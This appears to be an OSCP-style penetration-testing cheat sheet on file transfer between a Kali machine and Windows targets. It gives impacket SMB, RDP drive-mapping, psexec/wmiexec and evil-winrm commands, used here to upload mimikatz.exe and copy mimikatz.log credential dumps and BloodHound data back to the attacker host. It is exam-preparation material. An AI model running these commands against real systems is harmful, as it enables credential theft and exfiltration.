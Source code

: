 ##SMB Transfer
kali>impacket-smbserver test . -smb2support  -username ashok -password reddy </br>
WIN>net use m: \\192.168.45.242\home\kali\Desktop\HTB\OSCP\AD\beyond /user:kourosh kourosh </br>
WIN>copy 20240715135750_BloodHound.zip m:\ </br>

##SSH
kali>sudo service ssh start (Transfer file windows to kali)
WIN>scp file kali@192.168.45.208:/home/kali/Desktop/HTB/OSCP(Windows)

OSCP Note - https://discord.com/channels/780824470113615893/1148907181480104028
Youtube - https://www.youtube.com/watch?v=kd0sZWI6Blc
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username ashok -password reddy
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
